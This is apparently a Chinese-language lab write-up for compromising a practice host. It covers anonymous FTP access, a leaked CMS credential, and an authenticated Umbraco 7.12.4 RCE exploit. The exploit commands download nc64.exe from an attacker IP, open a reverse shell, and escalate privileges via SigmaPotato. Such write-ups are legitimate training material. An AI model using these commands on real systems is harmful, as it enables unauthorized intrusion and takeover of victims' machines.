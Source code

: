 ## nmap scanning
- <img width="1920" height="790" alt="image" src="https://github.com/user-attachments/assets/a66d0886-6d2b-4bb3-8ca7-81a1f5577232" />
- <img width="1920" height="570" alt="image" src="https://github.com/user-attachments/assets/d4001de7-d692-476a-8b0d-157df742b328" />

## 14020 port
- ftp 匿名登入成功，並將 umbraco.pdf 抓下來
  - <img width="1920" height="596" alt="image" src="https://github.com/user-attachments/assets/98cba00e-b69a-403a-9856-312094801434" />
- umbraco.pdf 提到有個 mark@relia.com 和 密碼，並且需將 web02.relia.com、relia.com 加入 hosts
  - <img width="1920" height="859" alt="image" src="https://github.com/user-attachments/assets/33b9ed54-2d9d-476e-8b68-71c28ff352b3" />
  - <img width="1920" height="839" alt="image" src="https://github.com/user-attachments/assets/906c6ea9-b43b-46d3-8a74-e6dc2afbd629" />

## 14080 port
- 需要輸入 FQDN（完整網域名稱）才能訪問
  - <img width="1920" height="837" alt="image" src="https://github.com/user-attachments/assets/1b298059-3031-48bd-8729-29c6927397ce" />
- 發現 /umbraco/#/login 是 umbraco CMS 的登入介面
  - <img width="1920" height="815" alt="image" src="https://github.com/user-attachments/assets/eb765504-0efd-4029-9c1d-96ac0a72589a" />
- 成功用 mark@relia.com、OathDeeplyReprieve91 登入，並且發現 umbraco 的版本為 7.12.4
  - 
- ExploitDB 發現 Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
  - https://www.exploit-db.com/exploits/49488
  - <img width="1919" height="910" alt="image" src="https://github.com/user-attachments/assets/8c099e9d-306c-4d18-860e-bf41448a0a55" />
- 成功 dir 到檔案
  ```
  python 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i 'http://web02.relia.com:14080/' -c powershell.exe -a 'dir'
  ```
  - <img width="1920" height="790" alt="image" src="https://github.com/user-attachments/assets/04c4de64-f32d-4db5-8cb6-f72c93ca0644" />
- 將 nc.exe 上傳，並取得 reverse shell
  ```
  python 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i 'http://web02.relia.com:14080/' -c powershell.exe -a 'Invoke-WebRequest -Uri http://192.168.45.155:8000/nc64.exe -OutFile /Users/Public/Downloads/nc64.exe'
  python 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i 'http://web02.relia.com:14080/' -c powershell.exe -a '/Users/Public/Downloads/nc64.exe -e cmd.exe 192.168.45.155 4444'
  ```
  - <img width="1920" height="451" alt="image" src="https://github.com/user-attachments/assets/804aadb2-76fa-46eb-bfd6-ac43d4e1d883" />
  - <img width="1288" height="269" alt="image" src="https://github.com/user-attachments/assets/13dff344-b18f-4c7e-98f0-f8944abc06c1" />

## 提權
- 發現可以用 SeImpersonatePrivilege 提權
- 使用 SigmaPotato.exe 提權
  - https://github.com/tylerdotrar/SigmaPotato
    ```
    .\SigmaPotato.exe --revshell 192.168.45.199 5656
    ```
  - <img width="1918" height="640" alt="image" src="https://github.com/user-attachments/assets/54969f38-b07e-48c2-b852-565f076840c8" />
  - <img width="1123" height="352" alt="image" src="https://github.com/user-attachments/assets/3dc6e2bc-eb32-4b08-a284-ec696fd416e9" />
- 取得 local.txt
  - <img width="1242" height="601" alt="image" src="https://github.com/user-attachments/assets/1e4be26c-dbcc-42e0-ad94-0e7d94134514" />
- 取得 proof.txt
  - <img width="818" height="125" alt="image" src="https://github.com/user-attachments/assets/27949bc2-0df6-4082-bb56-1042d84e76fe" />

